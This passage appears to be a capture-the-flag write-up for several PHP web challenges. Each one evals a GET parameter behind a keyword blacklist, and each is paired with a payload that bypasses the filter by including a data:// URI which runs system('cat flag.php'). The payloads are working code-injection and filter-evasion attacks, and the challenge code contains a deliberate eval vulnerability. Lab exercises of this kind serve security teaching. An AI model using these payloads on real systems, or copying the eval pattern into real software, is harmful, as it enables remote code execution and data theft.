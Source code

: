 ```php
 <?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}
```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

------

#### web34

```php
 <?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}
```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

------

#### web35

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}
```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```
